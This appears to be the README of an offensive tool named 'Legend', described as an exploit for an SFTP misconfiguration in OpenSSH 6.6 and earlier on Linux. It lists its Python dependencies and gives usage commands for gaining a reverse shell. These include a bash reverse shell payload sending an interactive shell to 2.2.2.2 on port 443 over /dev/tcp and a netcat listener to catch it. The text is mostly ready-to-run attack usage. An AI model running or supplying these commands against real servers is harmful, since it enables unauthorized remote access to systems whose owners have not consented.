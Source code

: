 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit for 32/64 bits Linux



## Dependencies
pip3 install paramiko

pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage
Reverse shell with python
```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

Reverse shell with bash
```sh
./legend.py -r 1.1.1.1 -p 22 -u user -P pass -c "/bin/bash -pi >& /dev/tcp/2.2.2.2/443 0>&1"
```

Listening on $your_port
```
sudo nc -nlvp 443
```
